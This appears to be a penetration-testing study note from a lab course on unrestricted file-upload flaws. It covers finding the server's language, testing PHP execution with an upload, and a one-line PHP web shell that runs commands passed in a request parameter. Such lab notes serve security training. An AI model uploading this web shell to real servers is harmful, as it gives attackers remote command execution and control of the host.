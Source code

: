 # Basic Exploit

This is when the webapplication accepts any type of file without any validation, (can drag and drop any file type)

### Identifying Web Framework

A **web shell has to be written in the same programming language that runs the web server**, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts

Easy method to determine what language runs the web application

* Access /index.ext and swap ext with various web extensions (php, asp, aspx)

> we can use ffuf or burp to enumerate the file extension. Note that some webapps doesn't use index page or have more than one web extensions

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_wappalyzer.jpg" alt=""><figcaption><p>wappalyzer to check for technologies</p></figcaption></figure>

### Vulnerability Identification

After knowing web technologies, we have to check if the webapp is vulnerable.

Test with `<?php echo "Hello HTB";?>` and upload the text to the webapp

Then access the location where the file is stored.

```
http://SERVER_IP:PORT/uploads/test.php
```

<figure><img src="https://academy.hackthebox.com/storage/modules/136/file_uploads_hello_htb.jpg" alt=""><figcaption><p>VULNERABLE</p></figcaption></figure>

### Assessment

```
<?php echo system($_REQUEST['cmd']); ?>
```

<figure><img src="../../.gitbook/assets/image (96) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption><p>ng-absentvalidation-m7kdm-9cf465b66-wxjhj</p></figcaption></figure>

